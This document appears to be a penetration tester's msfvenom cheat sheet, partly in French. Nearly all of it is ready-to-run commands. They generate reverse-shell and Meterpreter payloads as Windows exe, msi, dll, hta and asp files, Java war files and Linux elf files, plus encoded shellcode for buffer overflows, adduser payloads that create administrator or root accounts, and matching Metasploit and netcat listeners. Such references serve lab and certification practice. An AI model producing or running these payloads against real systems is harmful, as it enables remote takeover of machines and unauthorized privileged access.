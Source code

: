 # Msfvenom


## Windows - x86 - exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.233 LPORT=21 -f exe -o binary.exe

## Windows - x64 - exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.233 LPORT=21 -f exe -o binary.exe

## Windows - x64- .msi

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi

## Windows  - .dll

msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.184 LPORT=445

## Windows - .hta

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.138 LPORT=4444 -f hta-psh -o evil.hta

## Windows - .asp

Useful when the webserver is Microsoft IIS. Also, try extension .aspx and .aspx-exe

msfvenom -p windows/shell_reverse_tcp -f asp LHOST=10.10.16.8 LPORT=4444 -o reverse-shell.asp

## .war (java/jsp)

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.2 LPORT=80 -f war > shell.war

## Linux-x86 - elf

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.151 LPORT=80 -f elf -o shell.elf

## Linux - x64-elf-so

msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=192.168.130.21 LPORT=80

## Pour les Buffers Overflow

## Windows - .c

The flag -e is to specify the encoding.

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.218 LPORT=80 EXITFUNC=thread -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -f c -e x86/alpha_mixed

## Others payloads

```
cmd/windows/adduser # Create a new user and add them to local administration group
linux/x86/adduser   # Create a new user with UID 0
windows/adduser     # Create a new user and add them to local administration group
```
















### Msfvenom

See: https://www.offensive-security.com/metasploit-unleashed/Msfvenom/

https://liberty-shell.com/sec/2018/02/10/msfv/


[# Generating Reverse Shell using Msfvenom (One Liner Payload)](https://www.hackingarticles.in/generating-reverse-shell-using-msfvenom-one-liner-payload/)

**Generation Commands**


**Linux**
**Staged Meterpreter**
msfvenom **-p** linux/x86/meterpreter/reverse_tcp **LHOST**=YourIP **LPORT**=YourPort **-f** elf  shell-meterp.elf


**Inline Meterpreter**
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=YourIP LPORT=YourPort -f elf  santas.elf




**Windows**
**Executable with Meterpreter**
msfvenom **-p** windows/meterpreter/reverse_tcp **LHOST**=YourIP **LPORT**=YourPort **-f** exe  shell-meterp.exe


**Executable with Windows cmd**
msfvenom **-p** windows/shell/reverse_tcp **LHOST**=YourIP **LPORT**=YourPort **-f** exe  shell-cmd.exe


**Windows DLL with Windows cmd**
msfvenom **-p** windows/shell/reverse_tcp **LHOST**=YourIP **LPORT**=YourPort **-f** dll  shell-cmd.dll


**Execute Windows Command**
- generate dll named shell32.dll that will pop calc when ran
msfvenom **-f** dll **-p** windows/exec **CMD**=**"C:windowssystem32calc.exe" -o** shell32.dll


**Languages**
**Python**
msfvenom **-p** cmd/unix/reverse_python **LHOST**=YourIP **LPORT**=YourPort **-f** raw


**Powershell**
msfvenom **-p** windows/powershell_reverse_tcp **LHOST**=YourIP **LPORT**=YourPort **-f** raw


**Usage Tips**


**Payload Options**
msfvenom **-p** [payload] **--payload-options**
msfvenom **-p** windows/meterpreter/reverse_tcp **--payload-options**


**List encoders**
root@kali:/# msfvenom **-l** encoders
Encoding you payload in x86/shikata_ga_nai is great, but sometimes your shell code has bad chars and shikata_gi_nai may throw an error on generation. Using this command you should be able to find an encoder that will fit your parameters.
**Create Listener**
In Metasploit set Listener for
**Windows Meterpreter**
use exploit/multi/handler
**set** payload windows/x64/meterpreter/reverse_tcp


In Metasploit set Listener for
**Linux Meterpreter**
use exploit/multi/handler
**set** payload linux/x86/meterpreter/reverse_tcp
Set
**Netcat Listener**
nc **-lvp** YourPort


**Formats**
You can generate the shell output in two different formats:
**Executable**
or
**Transform**. It will depend on the scenario as to which one you'll choose.
**Executable**
- It's own executable shell with an extension .elf .exe .py .php etc. Eg: You have an unstable non-interactive low priv shell and you want to get something more stable and efficient on a vulnerable windows machine. You'd generate the payload as an .exe, create a listener, upload and execute.
**Transform**
- Raw shellcode that can be pasted into an existing exploit. The transform format will depend on what that exploit is written in. Eg: You need to create shell code to paste into your code execution exploit that's ultimately ran by a vulnerable public facing web app in javascript. To format your shellcode, you may want to use:
**-f js_le**
(java script_little endian)
List of formats...
root@kali:/# msfvenom **--help-formats**
Executable formats








asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats








bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript


*À partir de l'adresse https://liberty-shell.com/sec/2018/02/10/msfv/*




msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.191 lport=443 -f exe -o shell.exe -e x86/shikata_ga_nai -i 12



# known issues
## MSF 6 - SMB
Need :
```
set SMB::AlwaysEncrypt false  
set SMB::ProtocolVersion 1
```